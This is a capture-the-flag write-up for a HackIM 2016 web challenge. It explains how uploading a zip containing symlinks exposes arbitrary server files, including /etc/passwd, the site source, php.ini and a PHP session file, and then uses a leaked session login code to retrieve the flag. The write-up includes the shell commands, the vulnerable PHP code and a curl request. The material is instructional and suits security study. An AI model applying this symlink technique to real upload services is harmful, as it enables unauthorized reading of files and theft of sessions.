 ```yaml
---
title: 'hackim 2016: smasththestate (web 400)'
date: 2016-02-02 00:00:00 Z
categories:
- writeup
tags:
- cat/web
- lang/php
layout: post
author: f0rki
---
```


* **Category:** web
* **Points:** 400
* **Description:**

> This beautiful website for testing zip files contains a replica of a vulnerability found in a well known bug bounty site.
> Log in with rob:smashthestate then exploit the vulnerability to gain access to the 'admin' account and the flag.
> Automated tools and bruteforcing will not help you solve this challenge.

## Write-up

We can login with the given credentials and upload a zip file. This zip file is
then unpacked and all the contents are `cat`ed.

When some archive (zip, tar or whatever) is unpacked the two things I try first
is: relative paths in the filename and symlinks. This time you could upload
symlinks. For this we must use the `-y` flag on the zip tool.

    $ ln -s /etc/passwd
    $ zip -y pwn.zip passwd

Upload and enjoy the passwd file. OK so we can read any file with the
webservers permission. Good start. Next we can use the vulnerability to get the
source of the site.

    $ ln -s ../../index.php
    $ zip -y pwn.zip index.php

And it happily dumps us the source code :) This is the vulnerable piece of code
that handles the zip upload:

    $tmp_file = '/var/www/html/tmp/upload_'.session_id();

    # ZipArchive may not be available
    # $zip = new ZipArchive;
    # $zip->open($_FILES['zipfile']['name']);
    # $zip->extractTo($tmp_file);
    exec('unzip -o '.$_FILES['zipfile']['tmp_name']. ' -d '.$tmp_file);
    echo "Zip contents: <br/>";
    passthru("cat $tmp_file/* 2>&1");
    exec("rm -rf $tmp_file");


Now how to get to the flag? It's easy to spot the interesting piece of code:

    $code = $_POST['code'];
    if (isset($code) && isset($_SESSION['login_code'])) {
        if ($code === $_SESSION['login_code'] ){
            echo "Flag: ";
            passthru("sudo /bin/cat /var/www/html/flag");
        }
        else {
            echo "Invalid code";
        }
    }

Apparently we are supposed to find the admin login code that is set in the
session. It is set in the following piece of code which we can trigger by
visiting `?page=admin_login_help`. It uses `openssl_random_pseudo_bytes` which
I assume is safe in terms of randomness.

    session_start();
    if(!isset($_SESSION['login_code']) ){
        $_SESSION['login_code'] = bin2hex(openssl_random_pseudo_bytes(18));
        echo "A login code has been emailed to the administrator. Once you have recieved it, please click <a href='?page=code_submit'>here</a>\n";
    }
    else {
        echo "There is already an active login code for this session";
    }

Let's find out how php is configured to store it's sessions. We can fetch the
active php.ini from `/etc/php5/apache2/php.ini`, again using the symlink in zip
vulnerability. From there we can see that it's stored in files under
`/var/lib/php5/`. So in my case I read the file
`/var/lib/php5/sess_a7l9q5dihoumkg02cjkagh8gj1` again using the zip symlink
vulnerability to get the login_code. Then it was simply a matter of submitting
the login code.

    $ curl 'http://54.152.101.3/?page=code_submit' \
        -H 'Cookie: PHPSESSID=a7l9q5dihoumkg02cjkagh8gj1'
        --data 'code=742aa277b035c96ef64cba0364c75e214596'

Also note that this will always work as soon as you have it, since sessions are
never destroyed and also the login code is never regenerated. At least they
force a new session upon login.

At first this returned nothing, so it seemed the flag file was empty or they
didn't configure sudo. Anyway after complaining on IRC and waiting a little,
the flag reading worked and it turned out to be:

    8e11a50ef762f924d7af9995889873e4

What a boring flag :(
